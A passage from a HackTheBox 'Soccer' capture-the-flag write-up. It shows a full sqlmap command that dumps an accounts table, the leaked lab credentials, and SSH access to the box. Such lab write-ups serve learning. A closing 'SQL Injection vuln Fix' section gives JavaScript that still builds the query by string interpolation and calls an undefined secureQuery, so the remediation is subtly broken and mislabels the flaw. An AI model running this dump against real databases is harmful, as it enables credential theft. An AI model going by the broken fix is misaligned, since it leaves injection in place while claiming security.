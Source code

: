 And now we can easiliy [[SQLMap#Dump table data|dump the data]] that is in the accounts table.

>Command
>```bash
>sqlmap -u 'http://localhost:8081/?id=' -p 'id' --batch --risk 3 --level 5 -D soccer_db  -T accounts --dump

```log
id,email,password,username
1324,player@player.htb,PlayerOftheMatch2022,player
```

And BOOOMMMMM 💥💥💥 We were able to obtain a username and password. I noticed that this username was listed in the server's /etc/passwd file, so we can try to log into the account using SSH with these credentials.

DANGGGG IT! Now we have access to the box as the user 'player' and, as expected, we were able to retrieve the user flag.

![[HackTheBox/Machines/Easy/Soccer/images/Selection_024.png]]

#### SQL Injection vuln Fix

According to OWASP, input sanitization is a prevalent vulnerability in websockets. This was also evident in the case of the soccer box, where I discovered an input sanitization vulnerability upon analyzing the source code. Upon further examination, I also found a SQL Injection vulnerability.

link: https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/10-Testing_WebSockets

```js
socket.on('connection', ws=> {
  ws.on('message', function incoming(data) {
    try {
      var id = JSON.parse(data).id;
    } catch (e) {
      //console.log(e);
    }
    (async () => {
          try {
            const query = `Select id,username,password  FROM accounts where id = ${id}`;
            await connection.query(secureQuery, [id], function (error, results, fields) {
                if (error) {
                  ws.send("Ticket Doesn't Exist");
                } else {
                  if (results.length > 0) {
                    ws.send("Ticket Exists")
                  } else {
                    ws.send("Ticket Doesn't Exist")
                  }
                }
              });
          } catch (error) {
            ws.send("Error");
          }
      })()
   });
});
```

